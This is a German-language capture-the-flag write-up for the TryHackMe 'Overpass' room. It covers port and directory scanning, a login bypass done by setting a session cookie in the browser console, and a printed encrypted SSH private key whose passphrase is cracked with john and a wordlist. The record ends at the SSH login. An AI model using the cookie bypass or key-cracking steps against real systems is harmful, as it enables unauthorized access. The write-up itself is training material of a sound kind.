 # Overpass 1 CTF tryhackme.com
> Link zur CTF: [tryhackme.com](https://tryhackme.com/room/overpass)

Als erstes Scannen wir die IP-Adresse nach offene Ports um uns ein überblick zu verschaffen:<br>

* Command: `nmap -sV -A -oN scan.txt <TARGET-IP>`<br>

### Nmap Scan Result:
```
# Nmap 7.94SVN scan initiated Sun Feb 18 22:26:31 2024 as: nmap -sV -A -oN scan.txt 10.10.129.208
Nmap scan report for 10.10.129.208
Host is up (0.079s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 18 22:26:48 2024 -- 1 IP address (1 host up) scanned in 16.27 seconds
```

es sind also 2 Ports offen. SSH ist nicht angreifbar, aber http ist interesant also konzentrieren wir uns auf port 80.
Als erstes Scannen wir die website nach verzeichnisse und bruteforcen diese:<br>

* Command: `gobsuter dir http://10.10.197.218/ /usr/share/wordlists/dirb/command.txt`<br>

### Gobuster Result:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.197.218/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/img                  (Status: 301) [Size: 0] [--> img/]
/index.html           (Status: 301) [Size: 0] [--> ./]

===============================================================
Finished
===============================================================
```
Ein interesantes gibt es bei dem ergebnis: **/admin** sieht wie eine Login-Page aus.<br>

### /admin page:
![Admin anmelde Seite](./admin_page.png)

nach dem ich einmal zum test **username=admin&password=admin** ausprobiert habe habe ich mit dem Browser-Tools von Mozilla Firefox sehen können das eine .js Datei angesprochen wird namens: **login.js** wenn wir uns diesen code mal ansehen finden wir folgende interesante funktion:<br>

* login.js:
  ```javascript
    async function login() {
      const usernameBox = document.querySelector("#username");
      const passwordBox = document.querySelector("#password");
      const loginStatus = document.querySelector("#loginStatus");
      loginStatus.textContent = ""
      const creds = { username: usernameBox.value, password: passwordBox.value }
      const response = await postData("/api/login", creds)
      const statusOrCookie = await response.text()
      if (statusOrCookie === "Incorrect credentials") {
          loginStatus.textContent = "Incorrect Credentials"
          passwordBox.value=""
      } else {
          Cookies.set("SessionToken",statusOrCookie)
          window.location = "/admin"
      }
    }
  ```
in diesem code gibt es eine sicherheits lücke die in einem echten Senario ziemlich fatal währe,<br>der Fehler liegt in: `(statusOrCookie === "Incorrect credentials")` Man könnte einfach sein Cookie auf `"statusOrCookie"` setzen über die Browser-Console<br>

* Command: `Cookies.set("SessionToken","statusOrCookie")` <br>

und die Seite neuladen und dadruch das login umgehen, und ich bin drin!<br>

### Seiten Inhalt:
```
Since you keep forgetting your password, James, I've set up SSH keys for you.

If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
Also, we really need to talk about this "Military Grade" encryption. - Paradox

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```
Auf der seite finden wir eine nachricht an den User: **James** und einen verschlüsselten **id_rsa** key für den fall das er sein Password vergisst. Anscheinend ist diese Function im Code eine art Backdoor für den Entwickler aber leider nicht personalisiert genung und zu offensichtlich.
<br>
Also speichern wir uns diesen Key auf unseren system in einer datei. Aber wir müssen sie noch entschlüsseln<br>
<br>
dafür benutze ich: `ssh2john`
* Command: `ssh2john id_rsa > hash`<br>
<br>
Jetzt führen ich einen Hash Brute Force angriff aus:<br>
<br>

* Command: `john hash --wordlist=/usr/share/wordlists/rockyou.txt`

  ### John Result:
  ```
  id_rsa:james13

  1 password hash cracked, 0 left
  ```
  <br>  
* Command: `chmod 600 id_rsa`<br>
  <br>
  
jetzt haben wir auch den schlüssel um uns auf denn SSH Server einzuloggen.<br>
Nun loggen wir uns ein mit: `ssh james@IP -id id_rsa` auf dem Server ein,<br>
geben das Password ein für die id_rsa datei: **james13** und wir sind drin!<br>
<br>

### SSH Server:
![SSH Server login](./login_ssh)



